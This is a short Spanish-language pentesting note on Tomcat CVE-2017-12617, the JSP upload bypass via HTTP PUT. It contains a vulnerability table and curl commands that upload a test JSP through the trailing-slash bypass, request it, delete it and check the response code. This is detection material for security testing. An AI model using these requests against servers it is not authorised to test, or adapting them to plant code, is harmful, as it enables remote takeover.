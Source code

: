 # Tomcat (CVE-2017-12617)

| CVE | CVE-2017-12617 |
| --- | --- |
| Nombre de la Vulnerabilidad | JSP Upload Bypass |
| Tipo | Remote Code Execution |
| **Plataforma** | JSP |
| CVSS | **8.1 HIGH** |
| Descripción | Afecta a las versiones 9.0.0.M1 a 9.0.0, 8.5.0 a 8.5.22, 8.0.0.RC1 a 8.0.46 y 7.0.0 a 7.0.81. Esta vulnerabilidad permite la ejecución remota de código (RCE) cuando el método HTTP PUT está habilitado en el servidor, lo cual se puede hacer estableciendo el parámetro de inicialización `readonly` del servlet predeterminado en `false`.
Un atacante puede cargar un archivo JSP malicioso en el servidor a través de una solicitud especialmente diseñada usando el método PUT. Una vez cargado, este archivo JSP puede ser solicitado y ejecutado, permitiendo al atacante ejecutar cualquier código que haya incluido en el archivo, lo que puede llevar a la completa toma de control del servidor. |
| Fecha | 2017-10-09
 |

 

# Tabla de Contenido

---

# Detección de vulnerabilidad

---

## CURL

```bash
**curl** -X PUT --data '<% out.println("VULNERABLE");%>' http://*TARGET_IP*:*PORT*/check.jsp**/**
**curl** http://*TARGET_IP*:*PORT*/check.jsp
**curl** -X DELETE http://*TARGET_IP*:*PORT*/check.jsp**/**
**curl** -w "%{http_code}" -s -o /dev/null http://*TARGET_IP*:*PORT*/check.jsp
```

![Untitled](images/Untitled.png)
